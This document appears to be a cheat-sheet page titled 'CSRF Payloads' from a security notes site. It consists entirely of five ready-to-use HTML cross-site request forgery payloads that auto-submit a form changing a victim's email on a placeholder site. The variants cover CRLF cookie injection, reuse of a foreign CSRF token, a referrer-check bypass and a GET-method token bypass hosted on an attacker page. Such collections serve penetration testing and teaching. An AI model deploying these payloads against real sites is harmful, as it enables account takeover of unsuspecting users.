 ```yaml
---
title: CSRF Payloads
desc: Proof of Concepts for Cross Site Request Forgery.
tags: [CSRF, Web]
alts: []
website: 
render_with_liquid: false
---
```


## HTTP POST request

```html
<form method="POST" action="https://vulnerable.com/change-email">
    <input type="hidden" name="email" value="attacker@example.com">
</form>
<script>
    document.forms[0].submit();
</script>
```

<br />

## HTTP POST request (Cookie injection)

```html
<form method="POST" action="https://vulnerable.com/change-email">
    <input type="hidden" name="email" value="attacker@example.com">
</form>
<img src="https://vulnerable.com/?search=attack%0d%0aSet-Cookie:%20csrf=fake" onerror="document.forms[0].submit();">
```

<br />

## HTTP POST request (use the other csrf token)

```html
<form method="POST" action="https://vulnerable.com/change-email">
    <input type="hidden" name="email" value="attacker@example.com">
    <input type="hidden" name="csrf" value="PqORuKZMr9zIJxpZC2cA8BgHuQGVkW8h">
</form>
<script>
    document.forms[0].submit();
</script>
```

<br />

## HTTP POST request (Referrer validation)

```html
<meta name="referrer" content="no-referrer">

<form method="POST" action="https://vulnerable.com/change-email">
    <input type="hidden" name="email" value="attacker@example.com">
</form>
<script>
    // For referrer validation....
    history.pushState("", "", "/?vulnerable.com");
    
    document.forms[0].submit();
</script>
```

<br />

## HTTP GET request (to bypass CSRF token)

```html
<!-- ex. https://attacker.com/exploit -->

<form method="GET" action="https://vulnerable.com/change-email">
    <input type="hidden" name="email" value="attacker@example.com">
</form>
<script>
    document.forms[0].submit();
</script>
```
